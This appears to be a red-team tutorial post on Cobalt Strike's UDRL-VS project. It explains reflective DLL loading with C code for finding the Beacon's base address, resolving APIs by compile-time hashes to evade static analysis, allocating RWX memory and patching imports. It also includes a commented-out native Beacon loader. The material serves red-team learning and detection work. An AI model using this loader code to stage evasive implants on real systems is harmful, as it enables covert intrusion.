




# UDRL-VS
---

The User-Defined Reflective Loader Visual Studio is one of the latest additions to the Cobalt Strike Arsenal Kit. It is supposed to help red team operators with the development of their own UDRL and lower the barrier of entry for dev & debugging custom reflective loaders. 

<figure>
  
  <figcaption><i>Fig.1 - Example UDRL-VS Starting Directory.</i></figcaption>
</figure>

As you can see from the screenshot, a nice pre-built UDRL project is created for you to jumpstart into the development and debugging in Visual Studio.
<!-- 
# Reflective Loading vs Native Windows DLL Loading?
---

The main idea of Reflective Loading is to load a PE file directly from memory rather than from disk. This is achieved by manually loading the DLL into memory, which means bypassing the Windows API functions that would typically be used for this purpose. The primary advantage of this technique is stealth. Since the DLL never touches the disk, traditional file-based detection mechanisms (like antivirus software) are bypassed.

The original research was done by [Stepher Fewer](https://github.com/stephenfewer/ReflectiveDLLInjection) but, as I understand, the technique was already known.

Reflective loading differs from how Windows natively loads DLLs, where the DLL has to be on the filesystem in order to be loaded. Should you feel the need to load a Cobalt Strike DLL using the Windows DLL Loader, use the [code snippet](#native-windows-dll-loading) underneath.

## Native Windows DLL Loading

The following is an example of how you could load a CS Beacon using Native Windows DLL loading, the code snippet performs steps outlined below.

*For this demo we generated a CS Beacon shellcode and renamed it to `beacon.dll`.*

1. Windows API call `LoadLibraryA` is used to load `beacon.dll` from disk into memory and we get its base address. 
2. Navigate through the PE headers to extract the entry point RVA.
3. Calculate the `Beacon_EntryPoint` by adding the entrypoint RVA to the base address
4. Call the beacon entry point with `fdwReason=4` (`DLL_THREAD_DETACH`), this indicates that the current process is detaching from a thread.

<figure>
  
  <figcaption><i>Fig.2 - OPSEC Warning.</i></figcaption>
</figure>
<br>

In the following code snippet we can see how we would normally load a DLL and find the DLL entry point dynamically.

```c
#include <windows.h>
#include <stdio.h>

// Navigate to the PE headers.
// Extract the entry point RVA from the PE headers.
DWORD GetEntryPointRVA(void* baseAddress) {
    IMAGE_DOS_HEADER* dosHeader = (IMAGE_DOS_HEADER*)baseAddress;
    IMAGE_NT_HEADERS* ntHeaders = (IMAGE_NT_HEADERS*)((BYTE*)baseAddress + dosHeader->e_lfanew);
    return ntHeaders->OptionalHeader.AddressOfEntryPoint;
}

void main(){
    // LoadLibrary will load raw file beacon DLL from disk to VA space of process
    // After loading, LoadLibrary wilt call virtual beacon DLLs entrypoint as DLLMAIN,
    // with fdwReason=1 (DLL init)
    void* Beacon_BaseAddress = LoadLibraryA("beacon.dll");
    if (!Beacon_BaseAddress) {
        DWORD error = GetLastError();
        printf("[-] LoadLibraryA failed with error code: %lu\n", error);
        return;
    }
    printf("[+] beacon.dll base address: %p \n", Beacon_BaseAddress) ;

    // find the entry point of beacon.dll
    DWORD entryPointRVA = GetEntryPointRVA(Beacon_BaseAddress);
    printf("[+] entry point RVA: 0x%X\n", entryPointRVA);

    void* Beacon_EntryPoint = ( (char*) Beacon_BaseAddress + entryPointRVA);
    printf("[+] beacon.dll entry point: %p \n", Beacon_EntryPoint);

    BOOL (* Beacon_DLLMAIN) (void* hinstDLL, int fdwReason, void* lpvReserved) = Beacon_EntryPoint;
    // Call virtual beacon DLLs Entry Point with fdwReason=4
    Beacon_DLLMAIN( Beacon_BaseAddress, 0x4,NULL) ;
}
```

<br>

Compiling the code and executing it on a victim machine will give us the following result. On the screenshot we clearly see that `beacon.dll` being loaded by our process, **allowing for many detection opportunities**.

<figure>
  
  <figcaption><i>Fig.3 - Executing the loader.</i></figcaption>
</figure>

## Reflective Loader

Looking at the [example given by Stephen Fewer](https://github.dev/stephenfewer/ReflectiveDLLInjection/blob/master/dll/src/ReflectiveLoader.c) we can see the way he commented his code blocks. It makes reading the code an absolute joy and allows us to fully grasp the concept of reflective loading.

In general the project does a couple of things to reflectively load the DLL:

1. The program starts the library's ReflectiveLoader function. This can be done in two ways: using CreateRemoteThread() or a small initial code called bootstrap shellcode.
2. Since the library is in a random memory spot, the ReflectiveLoader figures out its current position. This helps it use its own data later.
3. Next, the ReflectiveLoader checks the host's kernel32.dll to find the locations of three essential functions: LoadLibraryA, GetProcAddress, and VirtualAlloc.
4. The ReflectiveLoader then sets aside a continuous memory space to load its own data. The exact spot doesn't matter because it will adjust the data's position later.
5. It moves the library's headers and sections to their new memory spots.
6. The ReflectiveLoader then updates its image's import table. This means it loads any extra libraries and figures out where their functions are located.
7. After that, it updates the image's relocation table.
8. The ReflectiveLoader starts the library's main function, DllMain, with a command called DLL_PROCESS_ATTACH. This means the library is now fully loaded in memory.
9. In the end, control goes back to the initial code that started the ReflectiveLoader. If it was started with CreateRemoteThread, that thread ends.

If you don't fully understand this part, I highly recommend the [Sektor7 course Malware Development: Intermediate Course](https://institute.sektor7.net/rto-maldev-intermediate). [Reenz0h](https://twitter.com/reenz0h) explains the concept very well and provides you with additional code snippets. -->

# Cobalt Strike UDRL
---

So now that we know, high-level, what is needed to reflectively load a DLL into memory using the RDI technique. How does Cobalt Strike's UDRL work and how can we customize it?

1. [ReflectiveLoader Function](#reflective-loader-function): This is the main function that handles the reflective loading process.
    - It determines the target DLL's base address and NT header.
    - It locates essential functions like LoadLibraryA, GetProcAddress, and VirtualAlloc.
    - It allocates memory for the DLL, copies its headers and sections, resolves its imports, processes relocations, and finds its entry point.
    - The function ends by calling the DLL's entry point and then returns the entry point's address.

2. FindImageBase Function: Determines the base address of the target DLL. Depending on the build configuration, it uses different methods to find this address.

3. AllocateMemory Function: Allocates memory for the target DLL. It determines the size needed based on the DLL's NT header and uses the VirtualAlloc function to reserve and commit the required memory.

4. CopyHeadersAndSections Function: Copies the headers and sections of the target DLL from its current location to the newly allocated memory.

5. ResolveImports Function: Handles the resolution of the DLL's imports. It goes through the import table, loads required modules using LoadLibraryA, and resolves function addresses using GetProcAddress.

6. ProcessRelocations Function: Adjusts addresses in the DLL based on its new location in memory. It calculates the difference between the DLL's original base address and its new address, then updates relevant addresses in the DLL to reflect its new location.

## ReflectiveLoader()

Let's start off by looking at the `ReflectiveLoader()` function, this should look familiar, we are trying to find our DLLs base address and NT headers. 

```c
// make sure the enclosed function has "C" linkage rather than "C++"
extern "C" {
// specify in which section the code should be placed
#pragma code_seg(".text$a")
	ULONG_PTR __cdecl ReflectiveLoader() {		
		// STEP 0: determine the target DLL's base address and NT header
		ULONG_PTR beaconBaseAddress = FindImageBase();
		PIMAGE_DOS_HEADER beaconDosHeader = (PIMAGE_DOS_HEADER)beaconBaseAddress;
		PIMAGE_NT_HEADERS beaconNtHeader = (PIMAGE_NT_HEADERS)(beaconBaseAddress + beaconDosHeader->e_lfanew);
		PRINT("[+] Beacon Base Address: %p\n", beaconBaseAddress);
		
		...
    }
}
```

### FindImageBase()
In this code snippet we can see the `FindImageBase()` which will, depending on the configuration, use a different directive. The main gist is that we calculate the beacons base address here and find the NT headers, like Stephen did in the RDI project.

To give an overview on how it does this on what the DOS & NT headers look like we can see it in WinDbg using the following commands (open any executable), and look for the base address of any loaded module:

```
lm (list modules)
dt nt!_IMAGE_DOS_HEADER <BaseAddress>
dt nt!_IMAGE_NT_HEADERS <BaseAddress + e_lfanew value>

# optional if you opened your loader
x *!ReflectiveLoader*
```

<figure>
  
  <figcaption><i>Fig.5 - WinDbg output of the DOS headers of ntdll.dll .</i></figcaption>
</figure>

Using this output we can calculate the NT headers: 

```
# output of WinDbg
+0x03c e_lfanew         : 0n232

# 0n232 = 0xE8
00007ffd`6e290000 + 0xE8 = 00007ffd`6e2900e8
```

<figure>
  
  <figcaption><i>Fig.6 - WinDbg output of the NT headers of ntdll.dll .</i></figcaption>
</figure>

### Resolving Functions

The following snippet is focused on determining the necessary functions that the loader requires to function.

We create some hashes during compile time to later find those modules & functions without directly calling them by their string name. This makes it harder for static analysis tools to find out what we're trying to do. 

```c
//STEP 1: find the functions our loader needs...
#ifdef _WIN64
    _PPEB pebAddress = (_PPEB)__readgsqword(0x60);
#elif _WIN32
    _PPEB pebAddress = (_PPEB)__readfsdword(0x30);
#endif
    // calculate hashes
    constexpr DWORD KERNEL32DLL_HASH = CompileTimeHash("kernel32.dll");
    constexpr DWORD NTDLLDLL_HASH = CompileTimeHash("ntdll.dll");

    constexpr DWORD LOADLIBRARYA_HASH = CompileTimeHash("LoadLibraryA");
    constexpr DWORD GETPROCADDRESS_HASH = CompileTimeHash("GetProcAddress");
    constexpr DWORD VIRTUALALLOC_HASH = CompileTimeHash("VirtualAlloc");
    constexpr DWORD NTFLUSHINSTRUCTIONCACHE_HASH = CompileTimeHash("NtFlushInstructionCache");
```

We initialize a struct `winApi` which will be used to store function pointers.

The loader attempts to resolve key functions using the `GetProcAddressByHash()` function, this function will search through the PEB using the provided hash retrieving a pointer to the address.

```c
    WINDOWSAPIS winApi = { 0 };
    // resolve key loader functions
    winApi.LoadLibraryA = (LOADLIBRARYA)GetProcAddressByHash(pebAddress, KERNEL32DLL_HASH, LOADLIBRARYA_HASH);
    if (winApi.LoadLibraryA == NULL) {
        PRINT("[-] Failed to find address of key loader function. Exiting..\n");
        return NULL;
    }
    winApi.GetProcAddress = (GETPROCADDRESS)GetProcAddressByHash(pebAddress, KERNEL32DLL_HASH, GETPROCADDRESS_HASH);
    if (winApi.GetProcAddress == NULL) {
        PRINT("[-] Failed to find address of key loader function. Exiting..\n");
        return NULL;
    }
    winApi.VirtualAlloc = (VIRTUALALLOC)GetProcAddressByHash(pebAddress, KERNEL32DLL_HASH, VIRTUALALLOC_HASH);
    if (winApi.VirtualAlloc == NULL) {
        PRINT("[-] Failed to find address of key loader function. Exiting..\n");
        return NULL;
    }
    winApi.NtFlushInstructionCache = (NTFLUSHINSTRUCTIONCACHE)GetProcAddressByHash(pebAddress, NTDLLDLL_HASH, NTFLUSHINSTRUCTIONCACHE_HASH);
    if (winApi.NtFlushInstructionCache == NULL) {
        PRINT("[-] Failed to find address of key loader function. Exiting..\n");
        return NULL;
    }
```

### PRINT() & Strings

A very nice addition by the dev team is that they included a way to output strings to be used as a part of the debugging process. Normally strings are stored in the .data/.rdata section but since our UDRL exclusively lives in the .text section, we won't have access to these strings.

The solution for this, commonly used in other loaders, is to use char arrays. Using this while developing is cumbersome is takes a while. Thus the implementation of the PIC_STRING() macro is very welcome.

We can use two macro's included in this project.

- PIC_STRING : convert any string to a char array
- PRINT : manually created `_printf()`, works exactly alike (debug mode only)

<br>

```c
// STEP 1a: a simple PIC string example
PIC_STRING(example, "[!] Hello, World!\n");
PRINT(example);
```

### AllocateMemory()

To be able to move our DLL into the process we need to allocate some memory. If the allocation is successful we get the base address of the new memory block.

```c
// STEP 2: create a new location in memory for our image...
ULONG_PTR newBeaconBaseAddress = AllocateMemory(beaconNtHeader, &winApi);
if (newBeaconBaseAddress == NULL) {
    PRINT("[-] Failed to allocate memory for Beacon. Exiting..\n");
    return NULL;
}
else {
    PRINT("[+] Allocated memory for Beacon: 0x%p\n", newBeaconBaseAddress);
}
```

Looking into the `AllocateMemory()` function, we immediately see some interesting **OPSEC unsafe** stuff we'll have to think about before using it during an engagement. We're allocating RWX memory which will definitely stand out a lot to EDR/EPP tooling.

In summary, the function determines the size of memory required to load a target DLL and then uses the VirtualAlloc function to allocate that memory. The function returns the base address of the allocated memory block.

```c
/**
 * Allocate the memory required to load the target DLL.
 *
 * @param ntHeader A pointer to the target DLL's NT header.
 * @param winApi A pointer to a structure of WINAPI pointers. 
 * @return A pointer to the start address of the newly created memory.
*/
ULONG_PTR AllocateMemory(PIMAGE_NT_HEADERS ntHeader, PWINDOWSAPIS winApi) {
	DWORD bufferSize = ntHeader->OptionalHeader.SizeOfImage;
	/**
	* allocate all the memory for the DLL to be loaded into. we can load at any address because we will relocate the image
	* we're using PAGE_EXECUTE_READWRITE as it's an example, but note - stage.userwx "true";
	*/
	return (ULONG_PTR)winApi->VirtualAlloc(NULL, bufferSize, MEM_RESERVE | MEM_COMMIT, PAGE_EXECUTE_READWRITE);
}
```

### CopyHeadersAndSections()

After allocating a memory block and getting a pointer to the new base address, we should be ready to move our image (or DLL) sections & headers into it. 

```c
// STEP 3: copy in our headers/sections...
CopyHeadersAndSections(beaconBaseAddress, newBeaconBaseAddress);
```

Delving into this function just reveals it overwriting the allocated space with headers & sections.

### ResolveImports()

This function is designed to manually resolve the imports of a DLL that has been loaded into memory, making sure that it can correctly calls functions from other DLLs it depends on.

The function then iterates through each import descriptor in the import directory. Each import descriptor corresponds to a DLL that the target DLL depends on.
For each import descriptor, the function retrieves the name of the dependent DLL and loads it into memory using LoadLibraryA.
The function then processes the Import Name Table (INT) and the Import Address Table (IAT) for the dependent DLL.
If the import is by ordinal (i.e., the function is identified by a number rather than a name), the function retrieves the address of the function in the dependent DLL and updates the IAT with this address.
If the import is by name, the function retrieves the address of the function in the dependent DLL using GetProcAddress and updates the IAT with this address.
The function continues this process for each function imported from the dependent DLL.
The function repeats the above steps for each import descriptor in the import directory.

```c
// STEP 4: process our image's import table...
ResolveImports(beaconBaseAddress, newBeaconBaseAddress, &winApi);
```

The function starts by retrieving the NT Headers of the DLL using the srcAddress and the e_lfanew field of the DOS Header.
It then locates the import directory of the DLL using the DataDirectory array in the NT Headers.

```c
PRINT("[*] Resolving Imports... \n");
PIMAGE_NT_HEADERS ntHeader = (PIMAGE_NT_HEADERS)(srcAddress + ((PIMAGE_DOS_HEADER)srcAddress)->e_lfanew);
PIMAGE_DATA_DIRECTORY importDataDirectoryEntry = &(ntHeader->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_IMPORT]);
```

<br>Next up we look for the import directory. The PE's optional header contains an array of data directories. One of these directories, IMAGE_DIRECTORY_ENTRY_IMPORT, points to the import table. The import table consists of a series of import descriptors, one for each DLL the PE file imports functions from. The loop iterates over these descriptors.

```c
PIMAGE_DATA_DIRECTORY importDataDirectoryEntry = &(ntHeader->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_IMPORT]);
```

<br>For each imported DLL, the code uses the LoadLibraryA function to load it into memory.

```c
ULONG_PTR libraryBaseAddress = (ULONG_PTR)winApi->LoadLibraryA(libraryName);
```

<br>The code then iterates over the functions that the PE file imports from the current DLL. For each function:

If the function is imported by ordinal (i.e., by a number rather than by name), the code retrieves the function's address from the exporting DLL's export table.
If the function is imported by name, the code uses the GetProcAddress function to get its address.

```c
// itterate through all imports
while (importDescriptor->Name) {
    LPCSTR libraryName = (LPCSTR)(dstAddress + importDescriptor->Name);
    // use LoadLibraryA to load the imported module into memory
    ULONG_PTR libraryBaseAddress = (ULONG_PTR)winApi->LoadLibraryA(libraryName);

    PRINT("[+] Loaded Module: %s\n", (char*)libraryName);

    // INT = VA of the Import Name Table (OriginalFirstThunk)
    PIMAGE_THUNK_DATA INT = (PIMAGE_THUNK_DATA)(dstAddress + importDescriptor->OriginalFirstThunk);
    // IAT = VA of the Import Address Table (FirstThunk)
    PIMAGE_THUNK_DATA IAT = (PIMAGE_THUNK_DATA)(dstAddress + importDescriptor->FirstThunk);

    // itterate through all imported functions, importing by ordinal if no name present
    while (DEREF(IAT)) {
        // sanity check INT as some compilers only import by FirstThunk
        if (INT && INT->u1.Ordinal & IMAGE_ORDINAL_FLAG) {
            // get the VA of the modules NT Header
            PIMAGE_NT_HEADERS libraryPEHeader = (PIMAGE_NT_HEADERS)(libraryBaseAddress + ((PIMAGE_DOS_HEADER)libraryBaseAddress)->e_lfanew);

            PIMAGE_DATA_DIRECTORY exportDataDirectoryEntry = &(libraryPEHeader)->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_EXPORT];

            // get the VA of the export directory
            PIMAGE_EXPORT_DIRECTORY exportDirectory = (PIMAGE_EXPORT_DIRECTORY)(libraryBaseAddress + exportDataDirectoryEntry->VirtualAddress);

            // get the VA for the array of addresses
            ULONG_PTR addressArray = libraryBaseAddress + exportDirectory->AddressOfFunctions;

            // use the import ordinal (- export ordinal base) as an index into the array of addresses
            addressArray += (IMAGE_ORDINAL(INT->u1.Ordinal) - exportDirectory->Base) * sizeof(DWORD);

            // patch in the address for this imported function
            PRINT("\t[*] Ordinal: %d\tAddress: %p\n", INT->u1.Ordinal, libraryBaseAddress + DEREF_32(addressArray));
            DEREF(IAT) = libraryBaseAddress + DEREF_32(addressArray);
        }
        else {
            // get the VA of this functions import by name struct
            PIMAGE_IMPORT_BY_NAME importName = (PIMAGE_IMPORT_BY_NAME)(dstAddress + DEREF(IAT));
            LPCSTR functionName = importName->Name;

            // use GetProcAddress and patch in the address for this imported function
            ULONG_PTR functionAddress = (ULONG_PTR)winApi->GetProcAddress((HMODULE)libraryBaseAddress, functionName);
            PRINT("\t[*] Function: %s\tAddress: %p\n", (char*)functionName, functionAddress);
            DEREF(IAT) = functionAddress;
        }
    // get the next imported function
        ++IAT;
        if (INT) {
            ++INT;
        }
    }
    // get the next import
    importDescriptor++;
}
```

<br>The IAT is an array of pointers in the PE file. Each pointer points to an imported function. As the code resolves each imported function, it updates the corresponding entry in the IAT with the function's address.


```c

```


# Sources
---

- [Revisiting the UDRL Part 1](https://www.cobaltstrike.com/blog/revisiting-the-udrl-part-1-simplifying-development)
- [Revisiting the UDRL Part 2](https://www.cobaltstrike.com/blog/revisiting-the-udrl-part-2-obfuscation-masking)
- [Sektor7 - Malware Intermediate](https://institute.sektor7.net/rto-maldev-intermediate)
- [Github Reflective DLL Injection](https://github.com/stephenfewer/ReflectiveDLLInjection)
- [X-Force-Red CS Reflective Loader](https://securityintelligence.com/x-force/defining-cobalt-strike-reflective-loader/)